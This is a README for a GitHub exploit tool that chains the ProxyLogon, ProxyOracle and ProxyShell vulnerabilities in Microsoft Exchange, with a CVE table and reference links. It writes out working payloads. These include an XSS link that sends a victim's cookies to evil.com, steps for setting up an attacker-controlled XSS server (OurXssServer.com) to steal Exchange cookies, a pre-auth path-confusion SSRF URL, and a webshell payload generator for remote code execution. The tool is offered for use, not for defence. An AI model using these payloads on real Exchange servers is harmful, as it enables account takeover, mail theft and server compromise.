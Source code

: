 # Proxy-Attackchain

proxylogon, proxyshell, proxyoracle full chain exploit tool

1. ProxyLogon: The most well-known and impactful Exchange exploit chain
2. ProxyOracle: The attack which could recover any password in plaintext format of Exchange users
3. ProxyShell: The exploit chain demonstrated at [Pwn2Own 2021](https://twitter.com/thezdi/status/1379467992862449664) to take over Exchange and earn $200,000 bounty

ProxyLogon is Just the Tip of the Iceberg: A New Attack Surface on Microsoft Exchange Server! [Slides](https://i.blackhat.com/USA21/Wednesday-Handouts/us-21-ProxyLogon-Is-Just-The-Tip-Of-The-Iceberg-A-New-Attack-Surface-On-Microsoft-Exchange-Server.pdf) [Video](https://www.youtube.com/watch?v=5mqid-7zp8k)

## most of the exploit is recoded with golang to speed up... and for learning golang purpose :)

 - ![](./pics/logo-black.png)

| NAME | CVE | patch time | description |
| ----------- | ----------- | ----------- | ----------- |
| ProxyLogon | [CVE-2021-26855](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-26855) | Mar 02, 2021 | server-side request forgery (SSRF) |
| ProxyLogon | [CVE-2021-27065](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-27065) | Mar 02, 2021 | Microsoft.Exchange.Management.DDIService.WriteFileActivity未校验写文件后缀，可由文件内容部分可控的相关功能写入WebShell |
| ProxyOracle | [CVE-2021-31196](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-31196) | Jul 13, 2021 | Reflected Cross-Site Scripting |
| ProxyOracle | [CVE-2021-31195](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-31195) | May 11, 2021 | Padding Oracle Attack on Exchange Cookies Parsing |
| ProxyShell | [CVE-2021-34473](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34473) | Apr 13, 2021 | Pre-auth Path Confusion leads to ACL Bypass |
| ProxyShell | [CVE-2021-34523](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34523) | Apr 13, 2021 | Elevation of Privilege on Exchange PowerShell Backend |
| ProxyShell | [CVE-2021-31207](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-31207) | May 11, 2021 | Post-auth Arbitrary-File-Write leads to RCE |
| proxytoken | [CVE-2021-33766](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-33766) | July 13, 2021 | With this vulnerability, an unauthenticated attacker can perform configuration actions on mailboxes belonging to arbitrary users. As an illustration of the impact, this can be used to copy all emails addressed to a target and account and forward them to an account controlled by the attacker. |
| Microsoft Exchange Server 远程执行代码漏洞 | [CVE-2021-42321](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42321) | Nov 17, 2021 | Exchange Deserialization RCE |

# proxylogon

 - ![](pics/proxylogon.png)
 - ![](pics/proxylogon1.png)

# proxyoracle

Once a victim clicks this link, evil.com will receive the cookies.

``` bash
https://ews.lab/owa/auth/frowny.aspx?app=people&et=ServerError&esrc=MasterPage&te=\&refurl=}}};document.cookie=`X-AnonResource-Backend=@evil.com:443/path/any.php%23~1941962753`;document.cookie=`X-AnonResource=true`;fetch(`/owa/auth/any.skin`,{credentials:`include`});//
```

or use 3gstudent's way:

## step1: XSS平台搭建

借助SSRF漏洞，控制Exchange服务器将Cookie信息发送至XSS平台，导致最终想要的Cookie信息位于Request Headers中

而现有的XSS平台大都是通过POST请求的参数来传递数据

为了解决这个问题，这里可以选择开源的XSS平台，地址如下：

https://github.com/3gstudent/pyXSSPlatform

只需要修改以下位置：

 - 修改index.js，使用ajax模拟用户发包触发SSRF漏洞

 - 修改 pyXSSPlatform.py ，将GET请求的Request Headers进行提取

 - 使用合法的证书

index.js代码示例：

``` bash
var xmlHttp = new XMLHttpRequest();
xmlhttp.open("GET", "https://192.168.1.1/owa/auth/x.js", false);
document.cookie = "X-AnonResource=true";
document.cookie = "X-AnonResource-Backend=OurXssServer.com/#~1";
xmlhttp.send();
```

## step2: XSS利用代码

控制用户访问XSS平台的代码示例：

``` bash
https://192.168.1.1/owa/auth/frowny.aspx?app=people&et=ServerError&esrc=MasterPage&te=\&refurl=}}};document.head.appendChild(document.createElement(/script/.source)).src=/https:\/\/OurXssServer.com\/index.js/.source//
```

## step3: example cookie for decryption test:

``` bash
cadata=FVtSAAWdOn29HYDQry+kG+994VUdAxONrayi4nbJW9JWTh8yLueD6IxYpahfxcGsA/B3FoVUQOD2EG605SR4QdeQ1pof+KD//6jwpmYQjv/II+OcqChrFZFvcMWv46a5; cadataTTL=eTxCEHKHDMmd/gEqDuOafg==; cadataKey=T4juhN4dUMKY4wkajUD43n4EWfMwefPQlqzxXmK4GnSHIZqo+g+uQg1Y2ogGoD1HyoVpRYgjGcCu6rmNQK+LsaZ8/lfBCThBI5yAhP1W2Fx+YNKvzy8Bcpui7zTlhAY598lE5Aijs6crHVXJeZkbLfMJgp0cFHj5uTQPcg31O/AeOAnD5c27IYOQ7JqMW7GOUVor1lhYnhh0R/NtWWqyfr5oE9j0jbxIGgrQrXIpLxL/uAU1ddC+/5jG9Edpq4sC213amuU/94rkHYzNH9OsiHYIkXr/NmkB7p908XrFrwXAcvV9QieoRiS3jvKCbzk3mnMu3YTnsJwAuiHzSXdCOQ==; cadataIV=GB9B+rwrigyPOf8xnV1KAek++yovEot9jFcV68WepCTQoRtQ5HUxSC7tE1mmHg0YtE6EOZNUM/WiNGP6xI4UTAofcMOfTLeRpBzeaKOETfjxKK2W7IKn+9k2tRkc1pIlO8FTOVx/dOHOoIFHUkqxFr+TgBULJ1I7tUmO7W0XDX4ZJHfmQhVqOOzeyjImKdX7Uv/jIJrF4VEew7rgvrC8BhqOqWgaTxpGhDTzIXl+wW3crsgZmXpXhOPURej1iwmtvhuQU6iuq4/IRv0lVIW3WvP6gUI8owIUxppnJl7YmN27Aqkjs0nTZZz1LBuZN+YxY4x6Lvs2FMG68jllhE4kwg==; cadataSig=BOJSYN2B+3RsXjO2akh3mqlKKkeAZVamOzfpVo0QdPEA3BHjpR6ls5yD9TzAQzRuWJJaaRIm7wMEiBMFz/sK5jk3R6kWw1OmMtJN2c38PdvwGIe6/7ByJdl52a5ojhDrRZhc4Qc3y+FFRx6XKvqUljTRWtHJGI1Jad2+LiNhJGkalhUeTM/a2V4LiQWf6Vv1KzJO79rZuOOOBnatht/E29j6636FpllCfEKrrogPQ7ADdVS6OOmqNU9gRMVgKnomC2t2PCtuYj26HUjnZ3rfc6BdzVmtu9EYSzccObsB2jxXXclAm5a+NZU/6sj9tlq3gcurjBl9yUDTgbZLg383gw==
```

 - amd64 poc binary usage:
 - just a modyfied version of [padre](https://github.com/glebarez/padre), added proxyoracle detect poc code...
 - ![](pics/proxyoracle.png)

 - python script exp usage:

Decrypt this cookie to plaintext:

 - ![](pics/proxyoracle1.png)

# proxyshell

 - CVE-2021-34473 - Pre-auth Path Confusion

This faulty URL normalization lets us access an arbitrary backend URL while running as the Exchange Server machine account. Although this bug is not as powerful as the SSRF in ProxyLogon, and we could manipulate only the path part of the URL, it’s still powerful enough for us to conduct further attacks with arbitrary backend access.

``` bash
https://xxx.xxx.xxx.xxx/autodiscover/autodiscover.json?@foo.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3f@foo.com
```

 - CVE-2021-34523 - Exchange PowerShell Backend Elevation-of-Privilege
 - CVE-2021-31207 - Post-auth Arbitrary-File-Write

## step1: generate proxyshell specified webshell payload.

 - proxyshell_payload_gen.py

just put the webshell content you want to "webshell", then it will be fine...

 - ![](pics/proxyshell.png)



# proxytoken

coming soon...

 - ![](pics/proxytoken.png)

# Exchange RCE CVE-2021-42321

coming soon...

 - ![](pics/CVE-2021-42321.png)

# ***more exp coming soon......***

# Reference (worship to orange!)
 - [Proxylogon](https://proxylogon.com/)
 - [A New Attack Surface on MS Exchange Part 1 - ProxyLogon!](https://blog.orange.tw/2021/08/proxylogon-a-new-attack-surface-on-ms-exchange-part-1.html)
 - [ProxyLogon漏洞分析](https://hosch3n.github.io/2021/08/22/ProxyLogon%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/)
 - [CVE-2021-42321](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42321)
 - [Some notes about Microsoft Exchange Deserialization RCE (CVE-2021–42321)](https://peterjson.medium.com/some-notes-about-microsoft-exchange-deserialization-rce-cve-2021-42321-110d04e8852)
 - [A New Attack Surface on MS Exchange Part 2 - ProxyOracle!](https://blog.orange.tw/2021/08/proxyoracle-a-new-attack-surface-on-ms-exchange-part-2.html)
 - [ProxyOracle漏洞分析](https://hosch3n.github.io/2021/08/23/ProxyOracle%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/)
 - [My Steps of Reproducing ProxyShell](https://y4y.space/2021/08/12/my-steps-of-reproducing-proxyshell/)
 - [ProxyShell漏洞分析](https://hosch3n.github.io/2021/08/24/ProxyShell%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/)
 - [FROM PWN2OWN 2021: A NEW ATTACK SURFACE ON MICROSOFT EXCHANGE - PROXYSHELL!](https://www.zerodayinitiative.com/blog/2021/8/17/from-pwn2own-2021-a-new-attack-surface-on-microsoft-exchange-proxyshell)
 - [ProxyVulns](https://github.com/hosch3n/ProxyVulns)
 - [pax](https://github.com/liamg/pax)
 - [padre](https://github.com/glebarez/padre)
 - [python-paddingoracle](https://github.com/mwielgoszewski/python-paddingoracle)
 - [Reproducing The ProxyShell Pwn2Own Exploit](https://peterjson.medium.com/reproducing-the-proxyshell-pwn2own-exploit-49743a4ea9a1)
 - [ProxyShell](https://github.com/ktecv2000/ProxyShell)
 - [PROXYTOKEN: AN AUTHENTICATION BYPASS IN MICROSOFT EXCHANGE SERVER](https://www.zerodayinitiative.com/blog/2021/8/30/proxytoken-an-authentication-bypass-in-microsoft-exchange-server)
 - [A basic proxyshell scanner](https://github.com/dinosn/proxyshell)
 - [Proof of Concept Exploit for Microsoft Exchange CVE-2021-34473, CVE-2021-34523, CVE-2021-31207](https://github.com/horizon3ai/proxyshell)
 - [Generate proxyshell payload by Py Permutative Encoding](https://github.com/Ridter/proxyshell_payload)
 - [CVE-2021-34473-Exchange-ProxyShell](https://github.com/je6k/CVE-2021-34473-Exchange-ProxyShell)